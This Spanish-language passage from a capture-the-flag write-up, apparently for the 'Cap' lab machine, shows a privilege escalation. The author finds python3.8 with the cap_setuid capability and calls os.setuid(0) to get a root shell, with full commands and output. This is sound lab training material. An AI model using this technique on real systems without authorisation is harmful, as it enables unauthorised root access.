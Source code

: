 
## Escalada de privilegios

En este caso es muy sencilla. Buscamos primero ejecutables que tengan permiso de altos privilegios. Privilegios SUID o GUID, pero por este lado no encontramos nada.

Al llamarse la máquina **Cap** probamos a buscar por capabilities:

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$
```
Vemos que **python3.8** tiene la capability **cap_setuid** que permite cambiar de usuario. Sabiendo que el usuario root es 0 nos vamos a python por consola:

```bash
nathan@cap:~$ /usr/bin/python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("bash")
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# cd /root
root@cap:/root# ls -la
total 36
drwx------  6 root root 4096 Jan 13 17:42 .
drwxr-xr-x 20 root root 4096 Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 May 23  2021 .cache
drwxr-xr-x  3 root root 4096 May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 May 23  2021 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Jan 13 17:42 root.txt
drwxr-xr-x  3 root root 4096 May 23  2021 snap
root@cap:/root# 

```

Como hemos visto hemos utilizado la capabilitie para escalar privilegios y convertirnos en root.